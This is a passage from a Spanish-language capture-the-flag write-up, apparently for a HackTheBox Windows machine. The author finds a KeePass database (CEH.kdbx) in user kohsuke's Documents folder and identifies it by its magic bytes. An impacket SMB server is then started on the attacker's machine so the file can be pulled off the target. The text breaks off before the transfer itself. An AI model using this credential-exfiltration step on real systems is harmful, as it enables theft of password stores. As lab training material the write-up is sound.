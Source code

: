 Otra forma de escalar privilegios sería buscando en el directorio del usuario `kohsuke` algun recurso que nos pueda servir y vemos que en la ruta `C:\Users\kohsuke\Documents>` existe un archivo llamado `CEH.kdbx`:

```bash
PS C:\Users\kohsuke\Documents> dir


    Directory: C:\Users\kohsuke\Documents


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        9/18/2017   1:43 PM           2846 CEH.kdbx                                                              


PS C:\Users\kohsuke\Documents>
```

Si no sabemos que tipo de programa está asociado a la extensión `kdbx`, podemos utilizar los [***magic numbers***](https://www.geeksforgeeks.org/working-with-magic-numbers-in-linux/).

```bash
PS C:\Users\kohsuke\Documents> Format-Hex -Path CEH.kdbx | Select-Object -First 1


           Path: C:\Users\kohsuke\Documents\CEH.kdbx

           00 01 02 03 04 05 06 07 08 09 0A 0B 0C 0D 0E 0F

00000000   03 D9 A2 9A 67 FB 4B B5 01 00 03 00 02 10 00 31  .???g?K?.......1


PS C:\Users\kohsuke\Documents>
```

Si buscamos por los primeros 8 números en hexadecimal: `03 D9 A2 9A` en internet, vemos que nos arroja el uso de la herramienta [keepass](https://keepass.info/help/base/repair.html). Asi que nos tratamos de pasar el archivo a nuestra máquina de atacante, por lo que nos compartimos un recurso a nivel de red:

```bash
❯ impacket-smbserver smbFolder $(pwd) -smb2support
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
